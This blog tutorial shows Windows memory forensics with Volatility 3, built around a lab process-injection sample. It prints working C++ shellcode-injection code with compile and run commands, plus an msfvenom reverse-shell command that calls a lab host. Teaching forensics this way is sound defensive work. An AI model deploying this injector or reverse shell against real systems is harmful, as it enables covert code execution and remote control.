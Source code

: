 ```yaml
---
title:  "Basic memory forensics with Volatility. Process injection example."
date:   2022-02-07 10:00:00 +0600
header:
  teaser: "/assets/images/39/2022-02-08_19-11.png"
categories:
  - tutorial
tags:
  - red team
  - blue team
  - malware
  - forensics
  - volatility
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![injection](/assets/images/39/2022-02-08_19-11.png){:class="img-responsive"}    

This is a self-researching of memory forensics via Volatility Framework.    

### memory forensics

Sometimes, after a system has been pwned, it's important to extract forensically-relevant information. RAM is considered volatile - meaning that it doesn't live long. Each time a computer is restarted, it flushes its memory from RAM, which means that, if a computer is hacked and then is restarted, you'll lose a lot of information that tells the story about how the system was compromised by attacker.    

### volatility Framework

Volatility is a tool that can be used to analyze the volatile memory of a system. Download and install from [here](https://github.com/volatilityfoundation/volatility3)        

### practice example

First of all, for simulating malware activity, create [classic](/tutorial/2021/09/18/malware-injection-1.html) process injection malware:    

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// meow-meow messagebox payload (without encryption)
unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

unsigned int my_payload_len = sizeof(my_payload);

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, my_payload_len, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, my_payload_len, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

compile:

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -Wint-to-pointer-cast -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![injection 2](/assets/images/39/2022-02-07_13-48_1.png){:class="img-responsive"}    

and run:   

```bash
.\hack.exe 2380
```

![injection 3](/assets/images/39/2022-02-09_00-04.png){:class="img-responsive"}    

As you can see, everything is work perfectly.    

### winpmem

Secondly, after run our malicious activity, I downloaded `winpmem` into victim's Windows 7 x64 machine. So, run:   

```cmd
>.\winpmem_v3.3.rc3.exe --output mem.raw --format raw --volume_format raw
```

![injection 4](/assets/images/39/2022-02-07_23-06.png){:class="img-responsive"}    

After finished, move `mem.raw` file to my attacker's kali machine.   

### analyzing Windows memory

#### obtaining OS

Obtaining the operating system of the memory dump is pretty easy. The plugin `windows.info.Info` can be specified to enumerate information about the captured memory dump:   

```bash
python3 ./volatility3/vol.py -f ./cybersec_blog/2022-02-07-mem-forensics-1/dump/mem.raw windows.info.Info
```
![injection 5](/assets/images/39/2022-02-07_22-59.png){:class="img-responsive"}    

#### analysing processes

Then, I used the `windows.pslist.PsList` plugin to look at the processes that were running on the victim's computer at the time the memory was captured:    

```bash
python3 ./volatility3/vol.py -f ./cybersec_blog/2022-02-07-mem-forensics-1/dump/mem.raw windows.pslist.PsList
```
![injection 6](/assets/images/39/2022-02-07_22-59_1.png){:class="img-responsive"}    
![injection 7](/assets/images/39/2022-02-07_23-10.png){:class="img-responsive"}    

Looking at the list, PID `2380` is `mspaint.exe`, which is our victim process.    

### process injected code   

Then for finding hidden and injected code, run:   

```bash
python3 ./volatility3/vol.py -f ./cybersec_blog/2022-02-07-mem-forensics-1/dump/mem.raw windows.malfind.Malfind
```
![injection 8](/assets/images/39/2022-02-09_00-54.png){:class="img-responsive"}    

![injection 9](/assets/images/39/2022-02-07_23-13.png){:class="img-responsive"}    

As you can see, we found memory section which we injected our `meow-meow` payload.    

Then, dump the process memory with `windows.memmap.Memmap` plugin:       

```bash
python3 ./volatility3/vol.py -f ./cybersec_blog/2022-02-07-mem-forensics-1/dump/mem.raw --output-dir ./cybersec_blog/2022-02-07-mem-forensics-1/dump/ windows.memmap.Memmap --pid 2380 --dump
```

![injection 10](/assets/images/39/2022-02-07_23-17.png){:class="img-responsive"}    

### finding strings

The `strings` command is a popular static malware analysis tool that can quickly assist in extracting human-readable pertaining to a malicious file:    

```bash
strings -e l ./cybersec_blog/2022-02-07-mem-forensics-1/dump/pid.2380.dmp | grep -ie "meow-meow"
```

![injection 11](/assets/images/39/2022-02-07_23-19.png){:class="img-responsive"}    

![injection 12](/assets/images/39/2022-02-07_23-20.png){:class="img-responsive"}    

### network connections

Next, I tested a scenario in which a malware or an attacker injects code into an already running process, and only then initiates a connection. Let's go to replace our payload in malware example as `msfvenom` reverse shell for demo:   

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.2.6 LPORT=4444 EXITFUNC=thread -f c
```

![injection 13](/assets/images/39/2022-02-08_18-51.png){:class="img-responsive"}    

![injection 14](/assets/images/39/2022-02-08_18-57.png){:class="img-responsive"}    

For the correctness of the experiment, we will launch our malware and make a memory dump:

![injection 15](/assets/images/39/2022-02-09_02-27.png){:class="img-responsive"}    

![injection 16](/assets/images/39/2022-02-09_02-32.png){:class="img-responsive"}    

Then run Volatility with `windows.netstat.NetStat` plugin. This plugin allows you to see the network connections on the machine at the time the memory was captured:        

```bash
python3 ./volatility3/vol.py -f ./cybersec_blog/2022-02-07-mem-forensics-1/dump/mem.raw windows.netstat.NetStat | grep -ie "mspaint.exe"
```

![injection 17](/assets/images/39/2022-02-09_02-36.png){:class="img-responsive"}    

### conclusion

There are still a ton of other plugins that are currently available that I did not mention in this tutorial and the memory sample I were analyzing was a Windows memory dump, because I did not work with the different plugins that target the Linux and Mac operating systems.   

I hope this post will be very helpful for entry level cybersec specialists from blue team.    

[Volatility3](https://github.com/volatilityfoundation/volatility3)    
[Classic code injection technique](/tutorial/2021/09/18/malware-injection-1.html)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
